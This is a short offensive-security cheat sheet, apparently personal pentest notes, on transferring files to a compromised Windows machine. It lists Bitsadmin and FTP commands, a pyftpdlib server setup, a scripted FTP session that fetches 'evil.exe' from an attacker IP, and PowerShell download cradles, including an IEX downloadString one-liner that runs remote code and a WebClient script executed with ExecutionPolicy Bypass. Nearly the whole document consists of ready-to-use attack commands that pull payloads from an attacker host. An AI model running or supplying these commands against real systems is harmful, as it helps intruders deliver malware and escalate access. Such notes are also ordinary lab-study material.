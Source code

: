 # TFTP

- to be continued

# Bitsadmin

- Bitsadmin /transfer n http://url saved_path

# FTP (pyftpdlib client on Kali)

- Ftp is generally installed on Windows machines
- To make it interactive, use -s option

## On Kali install a ftp client and set a username/password

```
python3 -m pip install pyftpdlib  
python3 -m pyftpdlib -p 21 -u root(username) -P root(pass) -d path(current dir by default)
```

## on Windows

```
ftp <attackerip>
> binary
> lcd
> get exploit.exe
```


### On Windows

```
echo open <attackerip> 21> ftp.txt
echo USER username password >> ftp.txt
echo bin >> ftp.txt
echo GET evil.exe >> ftp.txt
echo bye >> ftp.txt
ftp -s:ftp.txt
```


# Powershell

```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://<attackerip>/powerup.ps1" >>wget.ps1
echo $file = "powerup.ps1" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

## Powershell download a file

```
powershell "IEX(New Object Net.WebClient).downloadString('http://<targetip>/file.ps1')"
```
